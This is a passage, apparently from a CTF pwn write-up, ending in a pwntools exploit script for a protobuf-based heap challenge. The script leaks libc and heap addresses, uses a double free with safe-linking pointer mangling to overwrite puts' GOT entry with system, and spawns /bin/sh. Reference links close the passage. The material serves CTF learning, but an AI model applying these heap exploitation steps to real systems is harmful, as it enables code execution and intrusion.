    Devicemsg.whatidx = index
    Devicemsg.whatsize = 0
    Devicemsg.whatsthis = 0
    sa(b'WANT?\n', Devicemsg.SerializeToString())
def get_shell(index):
    Devicemsg = protos_pb2.devicemsg()
    Devicemsg.whatcon = b'a;/bin/sh\x00'
    Devicemsg.whattodo = 3
    Devicemsg.whatidx = index
    Devicemsg.whatsize = 48
    Devicemsg.whatsthis = 0
    print(Devicemsg.SerializeToString())
    sa(b'WANT?\n', Devicemsg.SerializeToString())
add(0,0x50,b'a'*8)
show(0)
rl(b'a'*8)
libc_addr=h64()-0x21ace0
libc.address=libc_addr
puts_abs_got=libc_addr+0x21a050
system=libc.sym['system']
add(1,0x50,b'a'*8)
for i in range(8):
    add(i+2,0x50,b'a'*8)
free(0)
free(1)
show(0)
rl("Content:")
heap_addr=u64(mx.recv(5).ljust(8, b'\x00')) << 12 
heap_addr=heap_addr-0x1000

for i in range(5):
    free(i+2)
free(7)
free(8)
free(7)
for i in range(7):
    add(i,0x50,b'a'*8)

target = ((heap_addr +0x4ea0) >> 12) ^ (puts_abs_got)

add(8,0x50,p64(target))
add(2,0x50,b'a')
add(3,0x50,b'a')
pause()
#0xebc81 0xebc85 0xebc88 0xebce2 0xebd38 0xebd3f 0xebd43 0x10d9cf 0x10d9d9 0xebd3f 0xebd47 0x10d9c2
ogg=libc_addr+0xebc3f
payload=p64(system)*2
add(5,0x50,payload)
log_addr(libc_addr)
log_addr(heap_addr)
log_addr(puts_abs_got)

get_shell(0)

inter()
```



参考文献：  
<https://blog.csdn.net/AtomTeam/article/details/139810387>  
<https://bbs.kanxue.com/thread-282293.htm#msg_header_h1_2>  
<https://github.com/protocolbuffers/protobuf>
